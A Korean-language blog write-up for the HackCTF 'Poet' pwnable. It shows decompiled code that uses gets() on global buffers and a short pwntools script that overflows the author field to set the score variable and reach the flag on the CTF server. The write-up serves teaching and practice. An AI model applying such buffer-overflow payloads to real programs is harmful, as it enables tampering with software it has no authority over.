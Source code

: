 ```yaml
---
layout: post
title: "HackCTF Poet"
author: "Ph4nt0m"
categories: [WriteUp, Pwnable]
date: 2021-04-01 17:00
tag: [WriteUp, HackCTF, Pwnable]
---
```


# Poet

### Source

```c
void __noreturn reward()
{
  char s[136]; // [rsp+0h] [rbp-90h] BYREF
  FILE *stream; // [rsp+88h] [rbp-8h]

  stream = fopen("./flag.txt", "r");
  fgets(s, 128, stream);
  printf(format, &author, s);
  exit(0);
}

int rate_poem()
{
  char dest[1032]; // [rsp+0h] [rbp-410h] BYREF
  char *s1; // [rsp+408h] [rbp-8h]

  strcpy(dest, poem);
  for ( s1 = strtok(dest, " \n"); s1; s1 = strtok(0LL, " \n") )
  {
    if ( !strcmp(s1, "ESPR")
      || !strcmp(s1, "eat")
      || !strcmp(s1, "sleep")
      || !strcmp(s1, "pwn")
      || !strcmp(s1, "repeat")
      || !strcmp(s1, "CTF")
      || !strcmp(s1, "capture")
      || !strcmp(s1, "flag") )
    {
      point += 100;
    }
  }
  return printf(asc_400BC0, poem, (unsigned int)point);
}

__int64 get_author()
{
  printf(&byte_400C38);
  return gets(&author);
}

__int64 get_poem()
{
  __int64 result; // rax

  printf("Enter :\n> ");
  result = gets(poem);
  point = 0;
  return result;
}

int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  const char *v3; // rdi

  setvbuf(_bss_start, 0LL, 2, 0LL);
  v3 = s;
  puts(s);
  while ( 1 )
  {
    get_poem();                                 // poem[1024]
    get_author(v3);                             // author[64]
    rate_poem(v3);
    if ( point == 1000000 )
      break;
    v3 = asc_400D78;
    puts(asc_400D78);
  }
  reward(v3);
}
```

### Solve

poem과 author, point는 전역변수이며 각각 사이즈는 1024,64 이고 point는 정수형이다.

get_poem에서 poem에 입력을 받고, get_author에 author를 입력 받고 rate_poem에서 poem에 입력된 것을 토대로 point가 +100된다. rate_poem에서는 입력 포인트가 없고 get_poem 또는 get_author에서 bof를 일으켜야 할 거 같다.

```c
int rate_poem()
{
  char dest[1032]; // [rsp+0h] [rbp-410h] BYREF
  char *s1; // [rsp+408h] [rbp-8h]

  strcpy(dest, poem);

__int64 get_poem()
{
  __int64 result; // rax

  printf("Enter :\n> ");
  result = gets(poem);
  point = 0;
  return result;
}
```

get_poem()에서 gets로 입력을 받아도 rate_poem에서 dest복사 시에 1032만큼만 복사하기 때문에 바이너리에 영향을 끼치지 않는다.

```c
int rate_poem()
{
  char dest[1032]; // [rsp+0h] [rbp-410h] BYREF
  char *s1; // [rsp+408h] [rbp-8h]

  strcpy(dest, poem);
  for ( s1 = strtok(dest, " \n"); s1; s1 = strtok(0LL, " \n") )
  {
    if ( !strcmp(s1, "ESPR")
      || !strcmp(s1, "eat")
      || !strcmp(s1, "sleep")
      || !strcmp(s1, "pwn")
      || !strcmp(s1, "repeat")
      || !strcmp(s1, "CTF")
      || !strcmp(s1, "capture")
      || !strcmp(s1, "flag") )
    {
      point += 100;
    }
  }
  return printf(asc_400BC0, poem, (unsigned int)point);
}

__int64 get_author()
{
  printf(&byte_400C38);
  return gets(&author);
}
```

get_author에서 받는 입력은 제약이 되지 않는다. 그 이유는 copy하는 대상이 없고 get_author에서 입력받은 데이터 자체를 사용하기 때문이다.

하지만 rate_poem에서 BOF를 일으키긴 어렵고 strtok를 이용해 메인함수의 if문을 탈출하는 방법을 택해야 겠다.

페이로드는 이렇다.

"ESPR" | "A"*40 | 999900 |

poem  |  author|  point    |

```python
from pwn import *

#context.arch = 'amd64'
#context.terminal=['tmux', 'splitw', '-h']
#p = process("./poet")
p = remote('ctf.j0n9hyun.xyz', 3012)
reward = 0x4007e6
pop_rdi = 0x400ab3
#gdb.attach(p, 'b*0x04009c9')

print p.recvuntil("> ")
poem = "ESPR"
p.sendline(poem)
print p.recvuntil("> ")
author = "A"*64 + p64(999900)
p.sendline(author)
p.interactive()
```

이번 문제에서 배운것은 입력과 출력에 대한 부분을 찾는 것도 찾는 것이지만 제약 받는 부분을 찾아 제한하는 것도 중요하다는 것을 다시한번 더 느꼈다.